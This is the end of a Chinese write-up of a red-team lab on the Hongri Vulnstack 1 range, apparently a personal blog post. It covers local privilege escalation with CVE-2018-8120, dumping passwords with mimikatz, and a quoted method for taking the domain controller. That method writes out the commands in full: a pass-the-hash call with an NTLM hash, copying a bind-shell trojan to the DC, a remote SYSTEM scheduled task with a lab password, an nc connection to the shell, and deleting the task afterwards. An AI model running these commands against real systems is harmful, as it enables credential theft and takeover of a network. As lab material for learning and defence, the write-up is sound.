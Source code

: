 ![img](54.png)



下一步开始提权，尝试多种提权方法均失败

![img](55.png)

然后上网查看资料，使用CVE-2018-8120来提权，直接文件上传upload CVE-2018-8120-master提权程序
![img](56.png)


成功提权，上免杀mimikatz

![img](57.png)

用户所有密码都会保存在mz.log文件中，可以直接type mz.log查看

![img](58.png)

### 5.6 票据加计划任务获取DC

> 这是博客[ATT&CK红队评估实战靶场(一)](https://www.cnblogs.com/Ekko-z/p/12991730.html)的获取域控方法，感觉太过复杂，本人没有尝试，这里也放在这里供大家参考。
>

mimikatz sekurlsa::pth /domain:god.org /user:administrator /ntlm:81be2f80d568100549beac645d6a7141
![img](59.png)
shell dir \192.168.52.138\c$ //dir DC的目录
![img](60.png)
生成一个exe马
这里用windows/reverse_bind_tcp LHOST=0.0.0.0 LPORT=7777 生成正向的马 yukong.exe
把马复制到域控机器上shell copy C:\yukong.exe \192.168.52.138\c$
然后再用这个写入计划任务的方法去连接，这里马反弹会连不成功，所以
shell schtasks /create /tn "test" /tr C:\yukong.exe /sc once /st 22:14 /S 192.168.52.138 /RU System /u administrator /p "hongrisec@2020"
挂着win7代理 proxy nc -vv 192.168.52.138 7777 即可弹回DC138的shell
用Meterpreter的马也可以，之前失败了，后续还是改成meterpreter的马，或者把普通shell再升级成meterpreter再导入cs也可以
马上线之后清除计划任务schtasks /delete /s 192.168.52.138 /tn "test" /f

## 0x06 后记

当然最后获取域控权限的方法还有好多，向pth攻击、横向哈希传递、redis等等，还有后续的痕迹清理日志清楚都没有涉及，经过这一次充分认识到自己的不足，还需要多加学习，有些地方自己还是没有完全弄明白，只是完全参考网络上的大神们的教程，文中有错漏的地方希望大家多多包含，我只是用了我觉得最简单的思路进行攻击，更复杂的没有涉及，希望以后能多多练习这样的靶机学习更牛的技能，最后谢谢红日团队给出的这个靶机，后续还有一系列靶机，有时间会慢慢逐个尝试。

## 0x07 参考资料

[ATT&CK实战 | Vulnstack 红队（一）](https://www.freebuf.com/column/231111.html)

[ATT&CK实战 | 红队评估一(上)](https://www.freebuf.com/articles/web/230476.html)
